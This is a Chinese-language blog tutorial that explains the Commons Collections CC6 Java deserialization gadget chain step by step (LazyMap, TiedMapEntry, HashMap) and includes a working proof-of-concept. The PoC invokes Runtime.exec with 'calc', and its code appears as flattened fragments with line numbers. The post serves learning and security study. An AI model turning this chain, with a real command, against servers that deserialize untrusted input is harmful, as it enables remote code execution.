





序 前面整理完CC1，对利用链的理解又加深了一点，也加深了对CC1链子的印象，这回面试应该能说点东西了
环境配置 1.commons-collections : 3.1～3.2.1
这个直接沿用CC1的环境了
2.jdk版本随意，我用的jdk8u321
CC6简介 在jdk8u_71之后，AnnotationInvocationHandler类修改了readObject方法，里面没有了setValue方法。也就是说CC1是受jdk版本限制的。而CC6不受jdk版本限制，因此更加通用。
LazyMap CC6的后半部分和CC1一样，都是通过chainedTransformer的transform方法，前面的部分就省略了，还是从transform开始Find usage，这次的主角是LazyMap
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 public class LazyMap extends AbstractMapDecorator implements Map , Serializable {protected final Transformer factory;protected LazyMap (Map map, Transformer factory) {super (map);if (factory == null ) {throw new IllegalArgumentException ("Factory must not be null" );this .factory = factory;public Object get (Object key) {if (map.containsKey(key) == false ) {Object value = factory.transform(key);return value;return map.get(key);
LazyMap的构造方法可以传一个map和transformer，然后LazyMap的get方法调用了传进来的transformer的transform方法，而且参数key是可控的
TiedMapEntry 在get方法上Find usage，发现有999+的地方调用了get方法，所以这就直接跟着ysoserial的链子走，找到TiedMapEntry类
1 2 3 4 5 6 7 8 9 10 11 12 13 14 public class TiedMapEntry implements Map .Entry, KeyValue, Serializable {public TiedMapEntry (Map map, Object key) {super ();this .map = map;this .key = key;public Object getValue () {return map.get(key);public int hashCode () {Object value = getValue();return (getKey() == null ? 0 : getKey().hashCode()) ^null ? 0 : value.hashCode());
构造函数很简单，super()是调用父类的无参构造方法，后面就是赋值，key和map都是可控的，然后hashCode调用getValue，然后调用get方法
现在的代码如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 public class CC6WithHashMap {public static void main (String[] args) throws IOException, ClassNotFoundException, NoSuchFieldException, IllegalAccessException, InvocationTargetException {ChainedTransformer chainedTransformer = new ChainedTransformer (new Transformer []{new ConstantTransformer (Runtime.class),new InvokerTransformer ("getMethod" , new Class []{String.class, Class[].class}, new Object []{"getRuntime" , null }),new InvokerTransformer ("invoke" , new Class []{Object.class, Object[].class}, new Object []{null , null }),new InvokerTransformer ("exec" , new Class []{String.class}, new Object []{"calc" })new HashMap <>();TiedMapEntry tiedMapEntry = new TiedMapEntry (lazyMap,"123" );
HashMap 同样，此时应该在hashCode上Find usage，但是结果还是太多了，有917条结果，直接开透视，找到HashMap
1 2 3 4 5 6 public class HashMap <K,V> extends AbstractMap <K,V>implements Map <K,V>, Cloneable, Serializable {static final int hash (Object key) {int h;return (key == null ) ? 0 : (h = key.hashCode()) ^ (h >>> 16 );
这里对HashMap的key进行了hashCode，再Find usage，刚好找到HashMap的readObject方法
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 private void readObject (ObjectInputStream s) throws IOException, ClassNotFoundException {int mappings = s.readInt(); if (mappings < 0 ) {throw new InvalidObjectException ("Illegal mappings count: " + mappings);else if (mappings == 0 ) {else if (mappings > 0 ) {for (int i = 0 ; i < mappings; i++) {@SuppressWarnings("unchecked") K key = (K) s.readObject();@SuppressWarnings("unchecked") V value = (V) s.readObject();false , false );
既然如此那就写个HashMap，然后把键设置成tiedMapEntry，值随便写
1 2 HashMap<Object,Object> map2 = new HashMap <Object,Object>();"456" );
然后序列化map2，发现弹计算器了，此时没反序列化ser.bin
仔细看一下put方法：

发现这里也调用了hash方法，跟进去看putVal方法

到这里有必要讲一下HashMap。HashMap是最常用的 Map 的实现类，既然是 Map，那就是以键值对 的方式存储数据，HashMap 为提升操作效率，根据键的 hashCode 值存储数据，并引入了链表来解决 hash 碰撞的问题，因此具有很快的访问速度。总体来说，HashMap 就是数组和链表的结合体。下面来分析代码：
putVal方法用于将键值对插入到哈希表中。当调用put方法时，如果是一个新的键，它会触发创建一个新的节点，并将其插入到哈希表中。如果该键已经存在于哈希表中，putVal会检查是否需要更新已存在的键的值。如果 key已经存在，putVal会更新该键对应的值。这意味着一旦键值对被插入，LazyMap就会“缓存”这个键的值，即已经存在于链表中。而LazyMap的get方法中可以看到

如果map中已经有了这个key，那就不会触发transform方法。
那解决办法很简单啊，把key删了不就行了，加一行代码：
吐槽，这一步卡了我很长时间，网上的文章写到这里就直接说要破坏本地执行的链条，然后再把key删了，然后再把链条还原回去。而我很想知道为什么不做这些在反序列化的时候弹就不出计算器，找了很长时间才发现是LazyMap的get方法有一个if判断。当我搞清楚以后才知道网上破环本地执行的链条的目的是生成ser.bin的时候本地不弹计算器……
什么？你问我为什么不调试？好问题，当我调到这里的时候就报错退出了，我也想让IDEA告诉我答案TAT

为了更加的标准，专业，还是避免在本地触发一次命令执行的链条，毕竟如果是弹shell啥的，会影响自己测试，这里我就跟着b站白日梦组长的视频写了，就是破坏了LazyMap的Transformer，扔一个ConstantTransformer进去，然后在put之后反射把LazyMap的factory再改成chainedTransformer。
最终poc：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 public static void main (String[] args) throws IOException, ClassNotFoundException, NoSuchFieldException, IllegalAccessException, InvocationTargetException {ChainedTransformer chainedTransformer = new ChainedTransformer (new Transformer []{new ConstantTransformer (Runtime.class),new InvokerTransformer ("getMethod" , new Class []{String.class, Class[].class}, new Object []{"getRuntime" , null }),new InvokerTransformer ("invoke" , new Class []{Object.class, Object[].class}, new Object []{null , null }),new InvokerTransformer ("exec" , new Class []{String.class}, new Object []{"calc" })new HashMap <>();new ConstantTransformer (1 ));TiedMapEntry tiedMapEntry = new TiedMapEntry (lazyMap,"123" );new HashMap <Object,Object>();"456" );"123" );Class c = LazyMap.class;Field factoryField = c.getDeclaredField("factory" );true );
调用链：

补充 刚刚翻评论区，发现有人和我有一样的问题，也是在问为什么要破坏本地的利用链，这里搬运一下：
参考 https://www.bilibili.com/video/BV1yP4y1p7N7/
https://su18.org/post/ysoserial-su18-2/#commonscollections6